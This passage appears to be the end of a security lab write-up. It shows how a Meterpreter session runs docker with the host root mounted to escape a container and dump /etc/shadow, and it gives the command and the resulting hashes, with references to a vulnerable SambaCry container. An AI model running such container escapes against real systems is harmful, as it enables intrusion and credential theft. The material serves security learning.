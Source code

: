 And finally using docker to have access to the host file system.

``` shell
execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
```

And that is it, you escaped the container and dumped the machine local user
hashes, the output will look like:

``` shell
meterpreter > execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
Process 113 created.
Channel 13 created.
root:$1$UFKdtFGw$qp29y1qGWit/vnvIG0uSr1:17488:0:99999:7:::
daemon:*:17488:0:99999:7:::
bin:*:17488:0:99999:7:::
sys:*:17488:0:99999:7:::
sync:*:17488:0:99999:7:::
games:*:17488:0:99999:7:::
man:*:17488:0:99999:7:::
lp:*:17488:0:99999:7:::
mail:*:17488:0:99999:7:::
news:*:17488:0:99999:7:::
```

# References

- [Metasploit docker image](https://github.com/opsxcq/docker-metasploit)
- [Vulnerable container](https://github.com/opsxcq/exploit-CVE-2017-7494)

